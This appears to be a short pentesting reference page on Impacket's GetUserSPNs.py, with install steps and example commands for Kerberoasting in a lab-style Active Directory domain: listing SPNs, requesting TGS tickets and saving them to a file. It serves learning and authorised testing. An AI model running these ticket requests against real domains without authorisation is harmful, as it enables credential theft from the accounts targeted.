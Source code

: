 ```yaml
---
title:  GetUserSPNs - a module from Impacket
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - kerberos
  - kerberoasting
---
```


# GetUserSPNs.py

## Installation

Install Impacket from: [https://github.com/fortra/impacket](https://github.com/fortra/impacket)

```bash
git clone https://github.com/fortra/impacket
cd impacket
sudo python3 -m pip install .
```


## Basic commands

```bash
# Gather a listing of SPNs in the domain.
GetUserSPNs.py -dc-ip $ip $domain/$username
# Example:
# GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend


# Requesting all TGS Tickets
GetUserSPNs.py -dc-ip $ip $domain/$username -request 
# Example:
# GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

# Request a single TGS ticket:
GetUserSPNs.py -dc-ip $ip $domain/$username -request-user $userrequested -outputfile file_tgs
# -outputfile:  to write the TGS tickets to a file 
# Example:
# GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

